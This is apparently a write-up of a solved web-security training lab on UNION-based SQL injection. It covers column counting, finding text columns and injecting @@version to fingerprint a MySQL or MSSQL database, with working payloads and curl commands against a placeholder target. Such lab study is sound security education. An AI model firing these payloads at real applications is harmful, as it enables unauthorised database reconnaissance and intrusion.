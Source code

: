 # SQL injection attack, querying the database type and version on MySQL and Microsoft — Practitioner

**Status:** Solved

---

## Goal

Determine the database version (MySQL or Microsoft SQL Server) by exploiting a SQL injection vulnerability. Display the version information on the page.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Determine the number of columns**
   - Use ORDER BY or UNION SELECT NULL:
```
   Gifts' ORDER BY 1--
   Gifts' ORDER BY 2--
   Gifts' ORDER BY 3--
```
   - Let's say it has 2 columns

3. **Find text-compatible columns**
   - Test each column for string support:
```
   Gifts' UNION SELECT 'abc',NULL--
   Gifts' UNION SELECT NULL,'abc'--
```
   - Identify which column(s) can display text

4. **Determine the database type**
   - Try MySQL comment syntax first:
```
   Gifts' UNION SELECT NULL,NULL#
```
   - If it works, likely MySQL (uses `#` for comments)
   - If not, try standard `--` (works for both)

5. **Query database version**
   - Both MySQL and MSSQL use `@@version`
   - Inject the version query:
   
   With `--` (works for both):
```
   Gifts' UNION SELECT NULL,@@version--
```
   
   With `#` (MySQL specific):
```
   Gifts' UNION SELECT NULL,@@version#
```

6. **Execute the injection**
   
   Try standard comment first:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,@@version--"
```
   
   Or MySQL style:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,@@version%23"
```
   (Note: `%23` is URL-encoded `#`)

7. **Verify the version appears**
   - Look at the page output
   - MySQL shows something like:
     - "8.0.32-0ubuntu0.20.04.2"
     - "5.7.42-log"
   - MSSQL shows something like:
     - "Microsoft SQL Server 2019 (RTM) - 15.0.2000.5"
     - "Microsoft SQL Server 2016 - 13.0.1601.5"

8. **Lab completion**
   - Lab solves automatically once version info is displayed
   - You've successfully identified the database type and version

---

## Example

- Vulnerable endpoint: `GET /filter?category=Gifts`
- Column count: 2 columns
- Column 2 accepts text
- Database: MySQL

Payload:
```bash
curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,@@version--"
```

Output on page:
```
Product: Laptop - $999
8.0.32-0ubuntu0.20.04.2
Product: Mouse - $20
```

---

## Version query alternatives

**MySQL:**
- `@@version` - Full version string
- `VERSION()` - Same as @@version
- `@@version_comment` - Additional version info
- Example output: `8.0.32-0ubuntu0.20.04.2`

**Microsoft SQL Server:**
- `@@version` - Full version with build info
- `SERVERPROPERTY('productversion')` - Version number only
- `SERVERPROPERTY('productlevel')` - Service pack level
- Example output: `Microsoft SQL Server 2019 (RTM) - 15.0.2000.5`

---

## Comment syntax differences

| Database | Comment Syntax | URL Encoded | Notes |
|----------|---------------|-------------|-------|
| **MySQL** | `#` | `%23` | Preferred in MySQL |
| **MySQL** | `-- ` | `--+` or `--%20` | Space after `--` required |
| **MSSQL** | `--` | `--` | Standard SQL comment |
| **Both** | `/* */` | `/*%20*/` | Multi-line comment |

**Best practice:**
- Try `--` first (universal)
- If blocked, try `#` for MySQL
- Add space or `+` after `--` for safety

---

## Why this works

The `@@version` variable is a system variable available in both MySQL and Microsoft SQL Server that returns the current database version. It's accessible without special privileges and provides detailed information about the database software. By extracting this information through SQL injection, attackers can:
- Identify the exact database type
- Find known vulnerabilities for that version
- Tailor exploitation techniques
- Plan privilege escalation attacks

---

## Identifying database from version string

**MySQL version format:**
- Includes patch level: `8.0.32`
- Often includes OS: `ubuntu`, `debian`
- May include build info: `-log`, `-standard`

**MSSQL version format:**
- Always starts with "Microsoft SQL Server"
- Includes year: `2019`, `2016`, `2022`
- Shows build number: `15.0.2000.5`
- May include edition: `Enterprise`, `Express`

---

**SQLi Lab 12 Complete ✓**